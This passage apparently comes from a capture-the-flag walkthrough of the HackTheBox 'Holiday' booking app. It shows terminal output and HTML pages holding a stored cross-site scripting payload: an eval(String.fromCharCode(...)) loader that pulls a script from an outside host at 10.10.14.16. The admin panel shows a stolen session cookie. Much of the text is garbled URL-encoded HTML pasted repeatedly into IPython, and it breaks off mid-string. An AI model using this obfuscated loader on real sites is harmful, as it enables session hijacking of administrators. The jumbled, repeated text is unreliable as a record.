0%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Cform%20class%3D%22form%22%20action%3D%22%2Fagent%2FaddNote%22%20method%3D%22post%22%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Cinput%20type%3D%22hidden%22%20name%3D%22uuid%22%20value%3D%228dd841ff-3f44-4f2b-9324-9a833e2c6b65%22%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Ctextarea%20class%3D%22form-control%22%20name%3D%22body%22%3E%3C%2Ftextarea%3E%3Cbr%2F%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Cbutton%20class%3D%22btn%20btn-md%20btn-primary%20btn-block%22%20type%3D%22submit%22%3EAdd%3C%2Fbutton%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3C%2Fform%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Cbr%2F%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Ci%3EAll%20notes%20must%20be%20approved%20by%20an%20administrator%20-%20this%20process%20can%20take%20up%20to%201%20minute.%3C%2Fi%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3C%2Fdiv%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3C%2Fdiv%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3C%2Fdiv%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Cdiv%20role%3D%22tabpanel%22%20class%3D%22tab-pane%22%20id%3D%22admin%22%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Cdiv%20class%3D%22panel%20panel-default%22%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Cdiv%20class%3D%22panel-body%22%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Ch2%3ENotes%20awaiting%20approval%3C%2Fh2%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Chr%2F%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Cimg%20src%3Dx%2F%3E%3Cscript%3Eeval(String.fromCharCode(100%2C111%2C99%2C117%2C109%2C101%2C110%2C116%2C46%2C119%2C114%2C105%2C116%2C101%2C40%2C39%2C60%2C115%2C99%2C114%2C105%2C112%2C116%2C32%2C115%2C114%2C99%2C61%2C34%2C104%2C116%2C116%2C112%2C58%2C47%2C47%2C49%2C48%2C46%2C49%2C48%2C46%2C49%2C52%2C46%2C49%2C54%2C47%2C104%2C111%2C108%2C105%2C100%2C97%2C121%2C46%2C106%2C115%2C34%2C62%2C60%2C47%2C115%2C99%2C114%2C105%2C112%2C116%2C62%2C39%2C41%2C59))%3B%3C%2Fscript%3E%3E%3Cbr%2F%3E%3Cbr%2F%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Csmall%3EFriday%2C%20June%2015th%202018%2C%209%3A29%3A51%20am%3C%2Fsmall%3E%3Cbr%2F%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Cform%20action%3D%22%2Fadmin%2Fapprove%22%20method%3D%22POST%22%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Cinput%20type%3D%22hidden%22%20name%3D%22cookie%22%20value%3D%22connect.sid%26%23x3D%3Bs%253A4a7bf690-7076-11e8-846a-a915c6da955e.lJpK87qqwLxN6wZiOmt7q7Icr%252B%252B9%252Fm%252Fr7H8ivTwVx%252F0%22%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Cinput%20type%3D%22hidden%22%20name%3D%22id%22%20value%3D%224%22%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Cbutton%20class%3D%22button%22%20type%3D%22submit%22%3EApprove%3C%2Fbutton%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3C%2Fform%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3C%2Fdiv%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3C%2Fdiv%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3C%2Fdiv%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3C%2Fdiv%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3C%2Fdiv%3E%0A%0A%0A%20%20%20%20%20%20%20%20%20%20%3C%2Fmain%3E%0A%0A%20%20%20%20%20%20%3C%2Fdiv%3E%0A%20%20%3C%2Fdiv%3E%0A%0A%0A%20%20%3C%2Fbody%3E%0A%3C%2Fhtml%3E%0A
root@kali:~/holiday#
```


```html
<!DOCTYPE html>
<html lang="en">
  <head>
      <meta charset="utf-8">
      <meta http-equiv="X-UA-Compatible" content="IE=edge">
      <title>Booking Management</title>
      <meta name="viewport" content="width=device-width, minimum-scale=1.0, maximum-scale=1.0">
      <link rel="stylesheet" type="text/css" href="/css/bootstrap.min.css" />
      <link rel="stylesheet" type="text/css" href="/css/main.min.css" />
      <script src="/js/jquery.min.js"></script>
      <script src="/js/bootstrap.min.js"></script>
  </head>

  <body>
      <div id="st-container" class="st-container">
      <div class="st-content">
          <p>
              <nav class="navbar navbar-inverse navbar-static-top hidden-print" role="navigation">
                  <div class="container">
                      <a class="navbar-brand navbar-hx-logo" href="http://holiday.htb" data-hxtrack-name="navbar-logo">Booking Management</a>
                      <ul class="nav navbar-nav navbar-right pull-right">
                          <li class="dropdown">
                              <a href="#" class="dropdown-toggle text-right" data-hxtrack-name="navbar-phone-numbers" data-toggle="dropdown"><span class="hidden-xs"><i class="fa fa-phone"></i> Freephone 0800 111 4645</span><span class="visible-xs">Contact us</span></a>
                              <div class="dropdown-menu navbar-phone-numbers text-right">
                                  <div class="panel panel-default">
                                      <div class="panel-heading">
                                          Call <span class="freeNumber">0800 111 4645</span>
                                      </div>
                                      <div class="panel-body">
                                          <p><strong>Mobiles call</strong><br>020 7930 9000</p>
                                          <p><strong>Monday to Friday</strong><br>08.00 to 23.00</p>
                                          <p><strong>Weekends</strong><br>08.30 to 20.00</p>
                                      </div>
                                  </div>
                              </div>
                          </li>
                      </ul>
                  </div>
              </nav>
          </p>
          <main>
              <div class="container">
                  <h1>Booking details</h1>
                  <!-- Nav tabs -->
                  <ul class="nav nav-tabs hidden-print" role="tablist">
                      <li class="active"><a href="#view" aria-controls="view" role="tab" data-toggle="tab"><i class="hidden-xs fa fa-eye fa-fw"></i> View</a></li>
                        <li><a href="#notes" aria-controls="notes" role="tab" data-toggle="tab"><i class="hidden-xs fa fa-sticky-note-o fa-fw"></i> Notes</a></li>
                        <li><a href="#admin" aria-controls="admin" role="tab" data-toggle="tab"><i class="hidden-xs fa fa-lock fa-fw"></i> Admin</a></li>
                  </ul>
                  <!-- Tab panes -->
                  <div class="tab-content">
                      <!-- Template -->
                      <div role="tabpanel" class="tab-pane active" id="view">
                          <div class="panel panel-default">
                              <div class="panel-body">
                                  <form class="form-horizontal">
                                      <div class="form-group">
                                          <label class="col-sm-4 control-label">Lead passenger</label>
                                          <div class="col-sm-4">
                                              <p class="form-control-static">Orland Wilkinson</p>
                                          </div>
                                      </div>
                                      <div class="form-group">
                                          <label class="col-sm-4 control-label">Booking Ref</label>
                                          <div class="col-sm-8">
                                              <p class="form-control-static">12ZL1</p>
                                          </div>
                                      </div>
                                      <div class="form-group">
                                          <label class="col-sm-4 control-label">Email</label>
                                          <div class="col-sm-8">
                                              <p class="form-control-static">Aliza91@yahoo.com</p>
                                          </div>
                                      </div>
                                      <div class="form-group">
                                          <label class="col-sm-4 control-label">Total Paid</label>
                                          <div class="col-sm-8">
                                              <p class="form-control-static">53</p>
                                          </div>
                                      </div>
                                      <div class="form-group">
                                          <label class="col-sm-4 control-label">From</label>
                                          <div class="col-sm-8">
                                              <p class="form-control-static">Sunday, April 1st 2018, 2:48:20 am</p>
                                          </div>
                                      </div>
                                      <div class="form-group">
                                          <label class="col-sm-4 control-label">to</label>
                                          <div class="col-sm-8">
                                              <p class="form-control-static">Friday, May 4th 2018, 2:35:15 am</p>
                                          </div>
                                      </div>
                                      <div class="form-group">
                                          <label class="col-sm-4 control-label">Flying from</label>
                                          <div class="col-sm-8">
                                              <p class="form-control-static">Gutkowskiberg</p>
                                          </div>
                                      </div>
                                  </form>
                              </div>
                          </div>
                      </div>
                        <div role="tabpanel" class="tab-pane" id="notes">
                          <div class="panel panel-default">
                            <div class="panel-body">
                                <h2>Notes</h2>
                                    <hr/>
                                    &lt;img src&#x3D;x/&gt;&lt;script&gt;eval(String.fromCharCode(100,111,99,117,109,101,110,116,46,119,114,105,116,101,40,39,60,115,99,114,105,112,116,32,115,114,99,61,34,104,116,116,112,58,47,47,49,48,46,49,48,46,49,52,46,49,54,47,104,111,108,105,100,97,121,46,106,115,34,62,60,47,115,99,114,105,112,116,62,39,41,59));&lt;/script&gt;&gt;<br/><br/>
                                    <small>Friday, June 15th 2018, 9:11:57 am</small><br/>
                                    <hr/>
                                    &lt;img src&#x3D;x/&gt;&lt;script&gt;eval(String.fromCharCode(100,111,99,117,109,101,110,116,46,119,114,105,116,101,40,39,60,115,99,114,105,112,116,32,115,114,99,61,34,104,116,116,112,58,47,47,49,48,46,49,48,46,49,52,46,49,54,47,104,111,108,105,100,97,121,46,106,115,34,62,60,47,115,99,114,105,112,116,62,39,41,59));&lt;/script&gt;&gt;<br/><br/>
                                    <small>Friday, June 15th 2018, 9:26:02 am</small><br/>
                              <h2>Add note</h2>
                              <form class="form" action="/agent/addNote" method="post">
                                <input type="hidden" name="uuid" value="8dd841ff-3f44-4f2b-9324-9a833e2c6b65">
                                <textarea class="form-control" name="body"></textarea><br/>
                                <button class="btn btn-md btn-primary btn-block" type="submit">Add</button>
                              </form>
                              <br/>
                              <i>All notes must be approved by an administrator - this process can take up to 1 minute.</i>
                            </div>
                          </div>
                        </div>
                        <div role="tabpanel" class="tab-pane" id="admin">
                          <div class="panel panel-default">
                            <div class="panel-body">
                                <h2>Notes awaiting approval</h2>
                                    <hr/>
                                    <script>eval(String.fromCharCode(100,111,99,117,109,101,110,116,46,119,114,105,116,101,40,39,60,115,99,114,105,112,116,32,115,114,99,61,34,104,116,116,112,58,47,47,49,48,46,49,48,46,49,52,46,49,54,47,104,111,108,105,100,97,121,46,106,115,34,62,60,47,115,99,114,105,112,116,62,39,41,59));</script>><br/><br/>
                                    <small>Friday, June 15th 2018, 9:29:51 am</small><br/>
                                    <form action="/admin/approve" method="POST">
                                      <input type="hidden" name="cookie" value="connect.sid&#x3D;s%3A4a7bf690-7076-11e8-846a-a915c6da955e.lJpK87qqwLxN6wZiOmt7q7Icr%2B%2B9%2Fm%2Fr7H8ivTwVx%2F0">
                                      <input type="hidden" name="id" value="4">
                                      <button class="button" type="submit">Approve</button>
                                    </form>
                            </div>
                          </div>
                        </div>
                  </div>
              </div>


          </main>

      </div>
  </div>


  </body>
</html>
```

```sh
root@kali:~/holiday# ipython
Python 2.7.15rc1 (default, Apr 15 2018, 21:51:34)
Type "copyright", "credits" or "license" for more information.

IPython 5.5.0 -- An enhanced Interactive Python.
?         -> Introduction and overview of IPython's features.
%quickref -> Quick reference.
help      -> Python's own help system.
object?   -> Details about 'object', use 'object??' for extra details.

In [1]: import urllib

In [2]: 0%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3C%2Fdiv%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20
   ...: %20%20%20%20%20%20%20%20%20%20%20%20%3C%2Fdiv%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Cdiv%20class%3D%22form-group%
   ...: 22%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Clabel%20class%3D%22col-sm-4%20control-label%22%3Eto%3C%2Fla
   ...: bel%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Cdiv%20class%3D%22col-sm-8%22%3E%0A%20%20%20%20%20%20%20%20
   ...: %20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Cp%20class%3D%22form-control-static%22%3EFriday%2C%20May%204th%202018%2C%202%3A3
   ...: 5%3A15%20am%3C%2Fp%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3C%2Fdiv%3E%0A%20%20%20%20%20%20%20%20%20%20%
   ...: 20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3C%2Fdiv%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%2
   ...: 0%20%20%20%20%20%3Cdiv%20class%3D%22form-group%22%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Clabel%20clas
   ...: s%3D%22col-sm-4%20control-label%22%3EFlying%20from%3C%2Flabel%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3C
   ...: div%20class%3D%22col-sm-8%22%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Cp%20class%3D%22form-c
   ...: ontrol-static%22%3EGutkowskiberg%3C%2Fp%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3C%2Fdiv%3E%0A%20%20%20%
   ...: 20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3C%2Fdiv%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%2
   ...: 0%20%20%20%20%20%20%20%20%3C%2Fform%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3C%2Fdiv%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%2
   ...: 0%20%20%20%20%20%20%20%20%20%3C%2Fdiv%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3C%2Fdiv%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20
   ...: %3Cdiv%20role%3D%22tabpanel%22%20class%3D%22tab-pane%22%20id%3D%22notes%22%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Cdiv%20class%3D%22panel%20panel-defa
   ...: ult%22%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Cdiv%20class%3D%22panel-body%22%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%
   ...: 20%20%20%20%20%20%20%20%20%20%20%20%3Ch2%3ENotes%3C%2Fh2%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Chr%2F%3E%0A%20%20%20%20
   ...: %20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%26lt%3Bimg%20src%26%23x3D%3Bx%2F%26gt%3B%26lt%3Bscript%26gt%3Beval(String.fromCharCode(100%2C111%2C
   ...: 99%2C117%2C109%2C101%2C110%2C116%2C46%2C119%2C114%2C105%2C116%2C101%2C40%2C39%2C60%2C115%2C99%2C114%2C105%2C112%2C116%2C32%2C115%2C114%2C99%2C61%2C34%2C104%2C116%2C116%2C112%2C58%2C47%2C47%2C49%2C
   ...: 48%2C46%2C49%2C48%2C46%2C49%2C52%2C46%2C49%2C54%2C47%2C104%2C111%2C108%2C105%2C100%2C97%2C121%2C46%2C106%2C115%2C34%2C62%2C60%2C47%2C115%2C99%2C114%2C105%2C112%2C116%2C62%2C39%2C41%2C59))%3B%26lt%
   ...: 3B%2Fscript%26gt%3B%26gt%3B%3Cbr%2F%3E%3Cbr%2F%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Csmall%3EFriday%2C%20June%2015th%2
   ...: 02018%2C%209%3A11%3A57%20am%3C%2Fsmall%3E%3Cbr%2F%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Chr%2F%3E%0A%20%20%20%20%20%20%
   ...: 20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%26lt%3Bimg%20src%26%23x3D%3Bx%2F%26gt%3B%26lt%3Bscript%26gt%3Beval(String.fromCharCode(100%2C111%2C99%2C11
   ...: 7%2C109%2C101%2C110%2C116%2C46%2C119%2C114%2C105%2C116%2C101%2C40%2C39%2C60%2C115%2C99%2C114%2C105%2C112%2C116%2C32%2C115%2C114%2C99%2C61%2C34%2C104%2C116%2C116%2C112%2C58%2C47%2C47%2C49%2C48%2C46
   ...: %2C49%2C48%2C46%2C49%2C52%2C46%2C49%2C54%2C47%2C104%2C111%2C108%2C105%2C100%2C97%2C121%2C46%2C106%2C115%2C34%2C62%2C60%2C47%2C115%2C99%2C114%2C105%2C112%2C116%2C62%2C39%2C41%2C59))%3B%26lt%3B%2Fsc
   ...: ript%26gt%3B%26gt%3B%3Cbr%2F%3E%3Cbr%2F%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Csmall%3EFriday%2C%20June%2015th%202018%2
   ...: C%209%3A26%3A02%20am%3C%2Fsmall%3E%3Cbr%2F%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Ch2%3EAdd%20note%3C%2Fh2%3E%0A%20%20%20%20%20%20%20%20%2
   ...: 0%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Cform%20class%3D%22form%22%20action%3D%22%2Fagent%2FaddNote%22%20method%3D%22post%22%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%
   ...: 20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Cinput%20type%3D%22hidden%22%20name%3D%22uuid%22%20value%3D%228dd841ff-3f44-4f2b-9324-9a833e2c6b65%22%3E%0A%20%20%20%20%20%20%20%20%20%20%
   ...: 20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Ctextarea%20class%3D%22form-control%22%20name%3D%22body%22%3E%3C%2Ftextarea%3E%3Cbr%2F%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%
   ...: 20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Cbutton%20class%3D%22btn%20btn-md%20btn-primary%20btn-block%22%20type%3D%22submit%22%3EAdd%3C%2Fbutton%3E%0A%20%20%20%20%20%20%20%20%20
   ...: %20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3C%2Fform%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Cbr%2F%3E%0A%20%20%20%20%
   ...: 20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Ci%3EAll%20notes%20must%20be%20approved%20by%20an%20administrator%20-%20this%20process%20can%20take%20up%20to%201%20m
   ...: inute.%3C%2Fi%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3C%2Fdiv%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20
   ...: %3C%2Fdiv%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3C%2Fdiv%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Cdiv%20role%3D%22tab
   ...: panel%22%20class%3D%22tab-pane%22%20id%3D%22admin%22%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Cdiv%20class%3D%22panel%20panel-default%22%3E%0A%20%20%20%
   ...: 20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Cdiv%20class%3D%22panel-body%22%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%2
   ...: 0%20%20%20%20%3Ch2%3ENotes%20awaiting%20approval%3C%2Fh2%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Chr%2F%3E%0A%20%20%20%20
   ...: %20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Cimg%20src%3Dx%2F%3E%3Cscript%3Eeval(String.fromCharCode(100%2C111%2C99%2C117%2C109%2C101%2C110%2C
   ...: 116%2C46%2C119%2C114%2C105%2C116%2C101%2C40%2C39%2C60%2C115%2C99%2C114%2C105%2C112%2C116%2C32%2C115%2C114%2C99%2C61%2C34%2C104%2C116%2C116%2C112%2C58%2C47%2C47%2C49%2C48%2C46%2C49%2C48%2C46%2C49%2
   ...: C52%2C46%2C49%2C54%2C47%2C104%2C111%2C108%2C105%2C100%2C97%2C121%2C46%2C106%2C115%2C34%2C62%2C60%2C47%2C115%2C99%2C114%2C105%2C112%2C116%2C62%2C39%2C41%2C59))%3B%3C%2Fscript%3E%3E%3Cbr%2F%3E%3Cbr%
   ...: 2F%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Csmall%3EFriday%2C%20June%2015th%202018%2C%209%3A29%3A51%20am%3C%2Fsmall%3E%3C
   ...: br%2F%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Cform%20action%3D%22%2Fadmin%2Fapprove%22%20method%3D%22POST%22%3E%0A%20%20
   ...: %20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Cinput%20type%3D%22hidden%22%20name%3D%22cookie%22%20value%3D%22connect.sid%26%23x3D%3
   ...: Bs%253A4a7bf690-7076-11e8-846a-a915c6da955e.lJpK87qqwLxN6wZiOmt7q7Icr%252B%252B9%252Fm%252Fr7H8ivTwVx%252F0%22%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%2
   ...: 0%20%20%20%20%20%20%20%20%20%20%20%3Cinput%20type%3D%22hidden%22%20name%3D%22id%22%20value%3D%224%22%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20
   ...: %20%20%20%20%20%20%20%20%3Cbutton%20class%3D%22button%22%20type%3D%22submit%22%3EApprove%3C%2Fbutton%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20
   ...: %20%20%20%20%20%20%3C%2Fform%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3C%2Fdiv%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20
   ...: %20%20%20%20%20%3C%2Fdiv%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3C%2Fdiv%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3C%2Fdiv%3E%0A%20%20%20%
   ...: 20%20%20%20%20%20%20%20%20%20%20%3C%2Fdiv%3E%0A%0A%0A%20%20%20%20%20%20%20%20%20%20%3C%2Fmain%3E%0A%0A%20%20%20%20%20%20%3C%2Fdiv%3E%0A%20%20%3C%2Fdiv%3E%0A%0A%0A%20%20%3C%2Fbody%3E%0A%3C%2Fhtml%3
   ...: E%0A""")
In [2]: 0%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3C%2Fdiv%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20
   ...: %20%20%20%20%20%20%20%20%20%20%20%20%3C%2Fdiv%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Cdiv%20class%3D%22form-group%
   ...: 22%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Clabel%20class%3D%22col-sm-4%20control-label%22%3Eto%3C%2Fla
   ...: bel%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Cdiv%20class%3D%22col-sm-8%22%3E%0A%20%20%20%20%20%20%20%20
   ...: %20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Cp%20class%3D%22form-control-static%22%3EFriday%2C%20May%204th%202018%2C%202%3A3
   ...: 5%3A15%20am%3C%2Fp%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3C%2Fdiv%3E%0A%20%20%20%20%20%20%20%20%20%20%
   ...: 20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3C%2Fdiv%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%2
   ...: 0%20%20%20%20%20%3Cdiv%20class%3D%22form-group%22%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Clabel%20clas
   ...: s%3D%22col-sm-4%20control-label%22%3EFlying%20from%3C%2Flabel%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3C
